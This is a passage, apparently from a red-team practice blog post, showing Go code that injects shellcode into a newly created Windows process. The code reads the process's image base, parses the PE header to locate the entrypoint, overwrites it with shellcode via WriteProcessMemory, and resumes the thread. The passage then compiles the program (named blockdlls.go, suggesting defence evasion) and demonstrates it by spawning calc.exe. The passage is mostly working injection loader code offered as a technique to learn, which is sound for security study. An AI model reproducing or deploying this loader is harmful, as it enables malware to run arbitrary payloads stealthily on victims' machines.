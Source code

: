 ```go

  imageBaseValue := binary.LittleEndian.Uint64(addressBuffer)
  addressBuffer = make([]byte, 0x200)

  fmt.Println("ReadProcessMemory")
  ReadProcessMemory.Call(uintptr(pi.Process), uintptr(imageBaseValue), uintptr(unsafe.Pointer(&addressBuffer[0])), uintptr(len(addressBuffer)), uintptr(unsafe.Pointer(&read)))

  lfaNewPos := addressBuffer[0x3c : 0x3c+0x4]
  lfanew := binary.LittleEndian.Uint32(lfaNewPos)
  entrypointOffset := lfanew + 0x28
  entrypointOffsetPos := addressBuffer[entrypointOffset : entrypointOffset+0x4]
  entrypointRVA := binary.LittleEndian.Uint32(entrypointOffsetPos)
  entrypointAddress := imageBaseValue + uint64(entrypointRVA)

  fmt.Println("WriteProcessMemory")
  WriteProcessMemory.Call(uintptr(pi.Process), uintptr(entrypointAddress), uintptr(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)), 0)

  fmt.Println("ResumeThread")
  ResumeThread.Call(uintptr(pi.Thread))
}
```

Now let's compile our new code:

```go
$ GOARCH=amd64 GOOS=windows go build blockdlls.go
```

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice16/compile-2.png" alt="pic" alt="pic">

Exactly as in the other program, a `calc.exe` window spawns.

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice16/demo-3.png" alt="pic" alt="pic">
